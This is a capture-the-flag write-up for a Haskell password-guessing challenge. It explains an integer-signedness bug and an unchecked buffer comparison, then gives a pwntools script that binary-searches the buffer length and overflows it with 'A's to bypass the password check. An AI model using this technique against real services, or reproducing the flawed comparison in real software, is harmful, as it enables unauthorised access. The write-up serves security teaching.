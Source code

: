 # Passwordle 2.0

Author: Sean (beanbeah)

## Description

Passwordle 2.0. You've seen passwordle, but its TOO EASYY. Passwordle 2.0 aims to fix that by giving you only ONE chance to guess the password! Guess the password correctly and get a flag. To make it slightly easier, you can specify the length of the password you want to guess (maybe guessing a 2 char password is easier than a 100 char password???)

## Hints
1. Release the original source code `original.hs` 
2. Maybe there's a way to trick the program to read more input?
3. Have you heard of binary search?


## Solution

It should be noted there are 2 vulnerabilities in the program.
1) Converting Signed Integers to Unsigned Integers 
2) Vulnerable comparison function

For the purpose of this writeup, we will be using the original source code. 

Notice in function `checkSize` (function `b`), an Integer value is converted to a Word value (unsigned integer)
```
checkSize :: Integer -> Word
checkSize size | (size >= 100) = fromInteger(16) :: Word
               | (size >= 0 && size <= 2) = fromInteger(2) :: Word
               | (size < 100) = fromInteger(size) :: Word
```
By sending a negative number such as `-1`, we will instead get a huge value since there is a wrap around when converting negative numbers to unsigned integers. By sending `-1`, we can get unlimited input since our input is restricted by function `nChars` or function `c`. 

The comparison function (`strcmp` or function `d`) is as follows:
```
strcmp :: Int -> ByteString -> ByteString -> IO Bool
strcmp len s1 s2 =
    allocaArray len $ \b1 -> do
        let l = len `div` 2
            l1 = BS.length s1
            l2 = BS.length s2
            b2 = plusPtr b1 16
        when (l1 > len || l2 > len) $ exitFailure
        pokeArray b2 (BS.unpack s2)
        when (l2 < l) $ pokeArray (plusPtr b2 l2) (replicate (l - l2) (0 :: Word8))
        pokeArray b1 (BS.unpack s1)
        when (l1 < l) $ pokeArray (plusPtr b1 l1) (replicate (l - l1) (0 :: Word8))
        and <$> forM [0..(l-1)] (\i -> do
            c1 <- peekByteOff b1 i :: IO Word8
            c2 <- peekByteOff b2 i
            return $ c1 == c2)
```

Notice, there is no length check performed on both strings, apart from making sure they do not exceed `len`. 
HOWEVER, notice that this comparison is insecure. 

The comparison function performs the following:
1) allocate an array of size `len`
2) copy over our acutal password (s2) into (`len`/2 -1) index to the end of the array
3) copy over our guess (s1) into the start of the array onwards. 
4) Loop through the array ensuring that 
       Index 0 equals Index (`len`/2 -1) 
       Index 1 equals Index (`len`/2 -1) + 1 
       Index 2 equals Index (`len`/2 -1) + 2
       ... 
       Index (`len`/2) equals Index (`len`-1) 

Notice since we never check that s1 or s2 is more than half the size of the array, we can overflow the allocated array. 
By sending `len` * "A", we can overflow and overwrite the contents of s2 in the array. 
During step 4, the function will return TRUE since all the chars in the array of `len` are the same ("A" in this case)

However, we still have not figured out what is the value of `len`.
It would be unwise to iterate from 1 to 800000 to find someNum. However, we can binary search!
Notice that when our guess is less than `len`, the program tells us our guess is wrong. 
When our guess is more than `len`, the program exits. 

Combining all this together, we obtain the following script!

```
from pwn import *
def send(p,num):
    p.recvuntil("Input the length of password to randomly generate:")
    p.sendline("-1")
    p.recvuntil("Enter your guess:")
    p.sendline(b"A"*num)
    p.recvline()
    return p.recvline()

r = 800000
l = 0

while (l < r):
    mid = (l + r) // 2
    p = remote("0.0.0.0",1337)
    try: 
        response = send(p,mid)
        if response == b"Sorry, your guess is wrong. Try again next time!\n":
            l = mid + 1
            p.close()
        elif response == b'Congrats! You guessed the password!\n':
            print(p.recvline())
            p.close()
            exit()
    except:
        #assume something went wrong
        r = mid -1
        p.close()
```
